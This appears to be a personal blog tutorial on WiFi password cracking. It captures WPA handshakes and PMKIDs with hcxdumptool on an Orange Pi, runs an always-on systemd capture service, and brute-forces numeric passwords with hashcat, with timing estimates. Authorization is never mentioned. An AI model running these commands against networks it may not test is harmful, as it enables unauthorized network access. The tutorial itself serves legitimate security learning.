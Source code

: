 +++
title = "Simple WiFi pentest"
date = "2023-11-16T20:36:04+04:00"
author = "gals"
authorTwitter = "" #do not include @
cover = ""
tags = ["wifi", "kali", "gentoo", "orange pi5"]
keywords = ["wifi", "kali", "gentoo", "orange pi5"]
description = "Simple WiFi pentest"
showFullContent = false
readingTime = true
hideComments = true
color = "" #color from the theme settings
+++

# Simple WiFi pentest

## Hardware
### Orange Pi 5 + TP-Link Archer T2U PLUS [RTL8821AU]
The OS is [Kali Linux](https://github.com/leeboby/kali-images). Don't forget to do `rm /boot/*cloud-arm64* && /usr/sbin/u-boot-update`  after `apt update && apt upgrade` otherwise you can't boot after reboot. In my case, the main reason for the appearance incorrect kernel is `apt install wireguard`. As you can see
```
└─# apt depends wireguard
wireguard
 |Depends: <wireguard-modules> (>= 0.0.20191219)
    linux-image-arm64
    linux-image-cloud-arm64
```
you can use it in any place with powerbank.

### Some computer with video card
In my case it's Gentoo with GeForce RTX 3070 Lite Hash Rate

## Orange PI 5

### Prepare

```bash
apt update
apt install tshark hcxdumptool hcxtools iw
```

### Run

```bash
# Setup monitor mode
ip link set wlan0 down && iw wlan0 set monitor none && ip link set wlan0 up
# Run tool for hcxdumptool 6.3.1 (C) 2023 ZeroBeat
hcxdumptool -i wlan0 -w wlan0.pcapng
# wait
```

You can use systemd service like this

```
[Unit]
Description=WiFi scan

[Service]
Type=simple
Environment=TERM=xterm
ExecStartPre=/usr/bin/ip link set wlan0 down
ExecStartPre=/usr/sbin/iw wlan0 set monitor none
ExecStartPre=/usr/bin/ip link set wlan0 up
ExecStartPre=-/usr/bin/bash -c '/usr/bin/mv /var/log/wifi-dump/wlan0.pcapng /var/log/wifi-dump/wlan0-$(date +%%Y%%m%%d-%%H%%M%%S).pcapng'
ExecStart=bash -c 'TERM=xterm; /usr/bin/hcxdumptool -i wlan0 -w /var/log/wifi-dump/wlan0.pcapng'
Restart=always
RestartSec=30

[Install]
WantedBy=multi-user.target
```


After or during waiting
```bash
# Dump to hc22000 file format, watch into 'PMKID (best)'
hcxpcapngtool -o wlan0.hc22000 wlan0.pcapng
# Get info from wlan0.hc22000
hcxhashtool -i wlan0.hc22000 --info=stdout
```

You can run something like this `bettercap -iface wlan0 -eval 'wifi.recon on; set ticker.period 5; set ticker.commands "wifi.show"; ticker on'` at the same time for watching in real time.



## Gentoo

### Prepare

```bash
eselect repository enable pentoo
eix-sync
eix-update
emerge hcxtools
```

### Try to find something interesting

Simple ans stupid brute force with all digest from 000000000 (minimal wifi password length) to 999999999999 (like mobile phone number)

```shell
hashcat -m 22000 wlan0.hc22000 -a3 --increment -w3 \
  --increment-max 11 \
  --increment-min 8 \
  '?d?d?d?d?d?d?d?d?d?d?d'
# press s to check status
# run any time if you want get current status with the found
hashcat -m 22000 wlan0.hc22000 --show
```

**Timings:**
- 8 digits ~ 18 minutes
- 9 digits ~ 3 hours
- 10 digits ~ 1 day, 5 hours
- 11 digist ~ 12 days, 9 hours
